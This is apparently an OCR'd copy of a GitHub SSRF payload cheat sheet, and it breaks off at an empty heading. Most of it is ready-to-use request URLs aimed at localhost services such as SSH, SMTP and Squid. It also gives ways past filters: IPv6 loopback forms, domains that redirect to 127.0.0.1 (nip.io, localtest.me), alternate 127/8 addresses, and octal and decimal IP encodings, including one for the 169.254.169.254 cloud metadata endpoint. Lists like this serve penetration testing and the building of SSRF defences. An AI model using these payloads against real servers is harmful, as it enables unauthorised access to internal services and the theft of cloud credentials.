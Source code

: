 # SSRF
Payloads with localhost
Basic SSRF v1

http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22
Basic SSRF - Alternative version

http://localhost:80
http://localhost:443
http://localhost:22
Bypassing filters
Bypass using HTTPS
https://127.0.0.1/
https://localhost/
Bypass localhost with [::]
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ Squid
Bypass localhost with a domain redirection
http://spoofed.burpcollaborator.net
http://localtest.me
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
http://bugbounty.dod.network redirect to 127.0.0.2 == localhost
The service nip.io is awesome for that, it will convert any ip address as a dns.

NIP.IO maps <anything>.<IP Address>.nip.io to the corresponding <IP Address>, even 127.0.0.1.nip.io maps to 127.0.0.1
Bypass localhost with CIDR
It’s a /8

http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
Bypass using a decimal IP location
http://0177.0.0.1/
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/  = http://169.254.169.254
Bypass using IPv6/IPv4 Address Embedding
IPv6/IPv4 Address Embedding
